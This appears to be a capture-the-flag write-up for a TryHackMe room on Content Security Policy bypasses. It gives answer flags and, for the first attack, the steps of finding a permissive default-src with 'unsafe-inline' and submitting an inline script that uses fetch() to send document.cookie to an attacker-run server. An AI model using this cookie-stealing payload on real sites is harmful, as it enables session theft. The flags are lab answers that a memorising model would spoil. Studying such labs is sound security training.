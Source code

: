 <em>For verification, all challenges are accessed by a bot locally (localhost)</em>.</p>

<p><em>Answer the questiona below</em></p>

<p>7.1. Flag for attack-1<br>
<code>THM{Th4t_W4s_Pr3tty_3asy}</code></p>

<p>

- navigated to <code>xx.xxx.xxx.xxx:30001</code><br><br><img width="1250" height="787" alt="image" src="https://github.com/user-attachments/assets/789a62ae-0845-4312-b4ec-decfc28d791c" /><br><br>
- navigated to <code>https://csp-evaluator.withgoogle.com</code> to check if the policy has any potential bypass vectors in it<br>
- pasted <code>xx.xxx.xxx.xxx:30001</code><br>
- clicked <code>CHECK CSP</code><br>
- identified that there is <code>default-src</code>:<br> <code>*</code> and<br><code>‘unsafe-inline’</code><br>
- checked and identified that the directive <code>default-src</code><br> is used as the default, which means if a certain resource is trying to be loaded and there isn't a directive specified for its type, it falls back to default-src to verify if it's allowed to load.<br>
- set up an http.server<br>
- typed a payload <code><script>fetch(`http://xx.xxx.xx.xxx:8000/${document.cookie}`)</script></code><br>
- clicked <code>Submit Query</code><br>
- received the flag and URL decoded it: <code>THM%7BTh4t_W4s_Pr3tty_3asy%7D</code> = <code>THM{Th4t_W4s_Pr3tty_3asy}</code></p>

<br>
<br>

<img width="1253" height="700" alt="image" src="https://github.com/user-attachments/assets/74a6a4ef-47ad-4a1d-ac37-ad50e1b357e2" />

<br>
<br>

<img width="921" height="103" alt="image" src="https://github.com/user-attachments/assets/41448af8-883f-4178-bcb3-91e12838b414" />

<br>
<br>

<img width="1084" height="116" alt="image" src="https://github.com/user-attachments/assets/bafc9f16-ba1f-4409-9785-2812fe8a8bd4" />

<br>
<br>
<br>
<p>7.2. Flag for attack-2<br>
<code>THM{Us1ng_data:_1snt_Any_S4fer}</code></p>

<br>

<img width="1353" height="198" alt="image" src="https://github.com/user-attachments/assets/67f13b29-2eb5-4699-82b0-d6d15e495dd5" />


<br>
<br>
